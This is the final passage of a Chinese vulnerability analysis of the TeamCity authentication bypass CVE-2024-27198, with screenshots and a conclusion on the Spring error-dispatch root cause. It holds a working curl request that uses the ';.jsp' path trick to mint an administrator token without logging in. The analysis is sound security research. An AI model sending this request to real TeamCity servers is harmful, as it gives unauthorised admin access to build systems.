     [![](assets/1709861012-5e316ffb88e26214172d26db279e1a95.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240306105013-4169d1d0-db64-1.png)
-   利用  
    和之前的漏洞一样，我们也可以通过 `/app/rest/users/id:1/tokens/{name}` 获取管理员 token
    
    ```bash
    curl --noproxy '*' -ik "http://127.0.0.1:8111/xxxx?jsp=/app/rest/users/id:1/tokens/racerz;.jsp" -X POST
    ```
    
    [![](assets/1709861012-c84edeed6c8ae00e0f93a5b8342c9b06.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240306105049-56a247f8-db64-1.png)

### 总结

可能是 Java 版本过高的缘故，分析代码过程中部分核心位置反编译失败导致无法理清逻辑（后续值得研究一下反编译的问题）。不过目前针对 CVE-2024-27198 漏洞利用思路的猜想是：spring 支持当出现 error code 时通过配置 location（渲染视图位置）来响应错误页面，这实际上是做了二次 dispatch 请求。而 teamcity 的鉴权操作并未对这种类似嵌套的请求作处理，同时视图名又可控，可覆盖默认的配置，导致可以以未授权的方式请求授权页面。(CVE-2024-27199 应该就是另外通过目录穿越的方式来控制第二次 dispatch 的位置)  
[![](assets/1709861012-135170c4e814d3b496b2a042cbe97f14.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240306105214-897f21dc-db64-1.png)